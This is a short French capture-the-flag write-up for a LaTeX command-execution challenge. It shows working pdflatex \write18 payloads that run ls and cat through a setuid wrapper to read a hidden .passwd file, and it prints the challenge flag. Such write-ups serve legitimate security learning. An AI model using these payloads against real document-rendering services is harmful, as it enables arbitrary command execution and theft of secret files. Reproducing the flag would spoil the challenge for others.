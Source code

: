 # LaTeX - Command execution

## Description :
> Comme pour le premier challenge sur LaTeX, dans ce défi il faut exploiter l'exécution de `pdflatex` pour exécuter une commande.
> 
> Sur **gtfobins** on trouve le payload.

## Exploit : 
> Avec le payload suivant, il est possible d'exécuter une commande lors de la generation du **.pdf**
> 
> `\documentclass{article}\begin{document}\immediate\write18{<command>}\end{document}`
> 
> Puisqu'il y a un dossier **flag_is_here** dans le répertoire courant, on exécute la commande `ls` pour voir son contenu avec 
> 
> `\documentclass{article}\begin{document}\immediate\write18{/bin/ls /challenge/app-script/ch24/flag_is_here > /tmp/output_command}\end{document}`
> 
> Lors de l'exécution du wrapper **./setuid-wrapper**, le résultat de la commande sera stocké dans un fichier dans **/tmp**.
> 
> On trouve donc qu'il y a un autre dossier nommé **512cba42fe46c1f346996b51fa053b15fba17baefa038d434381aa68bba6**.
> 
> En répétant la commande `ls -al` dans ce dossier, on trouve finalement le fichier **.passwd**
> 
> Finalement, il suffit de construire un payload avec la commande `cat` pour afficher le contenu du flag.
> 
> `\documentclass{article}\begin{document}\immediate\write18{/bin/cat /challenge/app-script/ch24/flag_is_here/512cba42fe46c1f346996b51fa053b15fba17baefa038d434381aa68bba6/.passwd > /tmp/output_flag}\end{document}`
> 
> Le flag trouvé est : **LaTeX_wr1t3_18_a_us3ful_c0mm4nd_3x3cut10n**